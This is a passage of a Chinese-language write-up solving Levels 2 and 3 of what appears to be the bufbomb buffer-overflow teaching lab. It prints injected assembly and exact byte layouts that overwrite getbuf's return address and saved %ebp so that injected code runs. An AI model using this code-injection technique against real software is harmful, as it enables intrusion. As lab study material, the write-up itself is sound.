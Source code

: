那么我们注入的可执行代码如下:

> movl $0x6078ec11, 0x0804e10c  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; /\* 修改 global_value 的值是 cookie \*/

> pushl $0x08048b82     &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;       /\* 向栈顶添加新的返回地址 \*/

> ret &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;  /\* 使得程序跳至 bang 的首语句执行 \*/ 


综上，我们向缓冲区中注入如下16进制代码 ：

	1. 注入可执行代码对应的机器码

	2. 注入若干‘00’，覆盖至地址为 0x556830f3 的存储单元

	3. 依次注入c8 30 68 55, 使得返回地址更新为 0x556830c8

----

### Level 3:

本阶段实验与Level 2很像，我们同样修改 getbuf 的返回地址为 0x556830c8(缓冲区的首地址), 而我们注入的可执行代码也从此处开始。

那么我们注入的可执行代码如下:

> movl $0x6078ec11, %eax  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; /\* 将 cookie 存入 %eax， 则 cookie 将作为 getbuf 新的返回值\*/

> pushl $0x08048bf3 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; /\* 向栈顶添加新的返回地址 \*/

> ret &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;  /\* 使得程序跳至 test 的下一条语句执行 \*/

同时还要注意一点，本阶段试验要求程序最终还是返回 test 继续执行，如果我们在进行缓冲区溢出攻击时，破坏了 %ebp 的旧值，那么当程序返回test时，会出现段错误。故在进行缓冲区溢出攻击时，应该在 %ebp 旧值的存储单元中进行等值覆盖。


注意到此时 bufbomb 尚未进行栈随机化，%ebp 旧值是固定的，我的 %ebp 旧值为 0x55683120。


综上，我们向缓冲区中注入如下16进制代码 ：

	1. 注入可执行代码对应的机器码

	2. 注入若干‘00’，覆盖至地址为 0x556830ef 的存储单元

	3. 依次注入20 31 68 55,  对 %ebp 旧值的存储单元 (0x556830f3 ~ 0x556830f0) 进行等值覆盖

	4. 依次注入c8 30 68 55, 使得返回地址更新为 0x556830c8

----
